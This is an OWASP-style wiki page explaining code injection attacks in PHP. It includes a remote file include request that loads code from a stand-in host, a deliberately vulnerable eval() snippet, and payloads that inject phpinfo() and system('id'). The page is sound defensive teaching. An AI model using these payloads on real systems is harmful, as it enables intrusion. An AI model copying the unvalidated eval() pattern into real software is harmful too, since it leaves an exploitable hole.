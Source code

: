 ```yaml
---

layout: col-sidebar
title: Code Injection
author: 
contributors: 
permalink: /attacks/Code_Injection
tags: attack, Code Injection
auto-migrated: 1

---
```


## Description

Code Injection is the general term for attack types which consist of
injecting code that is then interpreted/executed by the application.
This type of attack exploits poor handling of untrusted data. These
types of attacks are usually made possible due to a lack of proper
input/output data validation, for example:

  - allowed characters (standard regular expressions classes or custom)
  - data format
  - amount of expected data

Code Injection differs from [Command
Injection](Command_Injection "wikilink") in that an attacker is only
limited by the functionality of the injected language itself. If an
attacker is able to inject PHP code into an application and have it
executed, he is only limited by what PHP is capable of. Command
injection consists of leveraging existing code to execute commands,
usually within the context of a shell.

## Risk Factors

  - These types of vulnerabilities can range from very hard to find, to
    easy to find
  - If found, are usually moderately hard to exploit, depending of
    scenario
  - If successfully exploited, impact could cover loss of
    confidentiality, loss of integrity, loss of availability, and/or
    loss of accountability

## Examples

**Example 1**

If an application passes a parameter sent via a GET request to the PHP
include() function with no input validation, the attacker may try to
execute code other than what the developer had in mind.

The URL below passes a page name to the include() function.

<http://testsite.com/index.php?page=contact.php>

The file "evilcode.php" may contain, for example, the phpinfo() function
which is useful for gaining information about the configuration of the
environment in which the web service runs. An attacker can ask the
application to execute his PHP code using the following request:

<http://testsite.com/?page=http://evilsite.com/evilcode.php>

**Example 2**

When a developer uses the PHP eval() function and passes it untrusted
data that an attacker can modify, code injection could be possible.

The example below shows a dangerous way to use the eval() function:

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("\$myvar = \$x;");

As there is no input validation, the code above is vulnerable to a Code
Injection attack.

For example:

    /index.php?arg=1; phpinfo()

While exploiting bugs like these, an attacker may want to execute system
commands. In this case, a code injection bug can also be used for
command injection, for example:

    /index.php?arg=1; system('id')

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:
    Internet_attacker](:Category:_Internet_attacker "wikilink")
  - [Internal_software_developer](Internal_software_developer "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Command Injection](Command_Injection "wikilink")
  - [SQL Injection](SQL_Injection "wikilink")
  - [LDAP injection](LDAP_injection "wikilink")
  - [SSI injection](Server-Side_Includes_%28SSI%29_Injection "wikilink")
  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category: Input Validation
    Vulnerability](:Category:_Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [Input Validation](Input_Validation "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

  - [CWE-77: Command
    Injection](http://cwe.mitre.org/data/definitions/77.html)
  - [CWE-78: OS Command
    Injection](http://cwe.mitre.org/data/definitions/78.html)
  - [CWE-89: SQL
    Injection](http://cwe.mitre.org/data/definitions/77.html)

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:Injection
Attack](Category:Injection_Attack "wikilink")
